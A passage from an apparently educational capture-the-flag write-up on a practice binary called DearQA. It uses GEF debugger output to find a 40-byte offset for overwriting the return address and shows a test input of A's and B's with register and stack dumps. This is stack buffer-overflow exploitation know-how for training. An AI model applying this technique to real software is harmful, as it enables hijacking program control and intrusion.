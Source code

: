 We hit a segmentation fault again, let's find the RSP offset.

```
gef➤  pattern offset 0x007fffffffde18
[+] Searching for '0x007fffffffde18'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 
```

As we can see, **the binary crashed after 40 characters of our input, and we sucessfully overwrite the RSP value.**

**To confirm we can control the RSP, I'll add 40 A's and 8 B's.**
```
gef➤  r
Starting program: /root/ctf/thm/ctf/Dear_QA/DearQA.DearQA 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
0x000000000040072f in main ()

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x007fffffffde18  →  "BBBBBBBB"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x000000006012a0  →  "Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBB[...]"
$rdi   : 0x007fffffffd890  →  0x007ffff7c596f0  →  <funlockfile+0> mov rdi, QWORD PTR [rdi+0x88]
$rip   : 0x0000000040072f  →  <main+108> ret 
$r8    : 0x0               
$r9    : 0x007ffff7daa4e0  →  0x0000000000000000
$r10   : 0x007ffff7daa3e0  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x007fffffffdf28  →  0x007fffffffe280  →  "/root/ctf/thm/ctf/Dear_QA/DearQA.DearQA"
$r13   : 0x000000004006c3  →  <main+0> push rbp
$r14   : 0x0               
$r15   : 0x007ffff7ffd020  →  0x007ffff7ffe240  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffde18│+0x0000: "BBBBBBBB"     ← $rsp
0x007fffffffde20│+0x0008: 0x0000000000000000
0x007fffffffde28│+0x0010: 0x000000004006c3  →  <main+0> push rbp
0x007fffffffde30│+0x0018: 0x0000000100000000
0x007fffffffde38│+0x0020: 0x007fffffffdf28  →  0x007fffffffe280  →  "/root/ctf/thm/ctf/Dear_QA/DearQA.DearQA"
0x007fffffffde40│+0x0028: 0x0000000000000000
0x007fffffffde48│+0x0030: 0xce77702ceab3ec89
0x007fffffffde50│+0x0038: 0x007fffffffdf28  →  0x007fffffffe280  →  "/root/ctf/thm/ctf/Dear_QA/DearQA.DearQA"
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400724 <main+97>        call   0x400530 <printf@plt>
     0x400729 <main+102>       mov    eax, 0x0
```